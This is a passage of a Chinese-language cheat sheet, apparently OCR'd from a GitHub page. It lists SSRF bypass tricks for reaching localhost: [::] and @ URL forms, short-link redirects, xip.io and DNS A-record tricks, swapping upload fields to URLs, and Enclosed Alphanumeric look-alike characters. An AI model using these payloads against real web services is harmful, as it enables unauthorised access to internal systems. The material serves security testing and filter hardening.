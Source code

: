 ###### 2、利用[::]

```
利用[::]绕过localhost
http://[::]:80/  >>>  http://127.0.0.1
```

也有看到利用http://0000::1:80/的，但是我测试未成功

###### 3、利用@ 

```
http://example.com@127.0.0.1
```

###### 4、利用短地址

```
http://dwz.cn/11SMa  >>>  http://127.0.0.1
```

###### 5、利用特殊域名

利用的原理是DNS解析

```
http://127.0.0.1.xip.io/
```

```
http://www.owasp.org.127.0.0.1.xip.io/
```

###### 6、利用DNS解析

在域名上设置A记录，指向127.0.1

###### 7、利用上传

```
也不一定是上传，我也说不清，自己体会 -.-
修改"type=file"为"type=url"
比如：
上传图片处修改上传，将图片文件修改为URL，即可能触发SSRF
```

###### 8、利用Enclosed alphanumerics

```
利用Enclosed alphanumerics
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ  Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

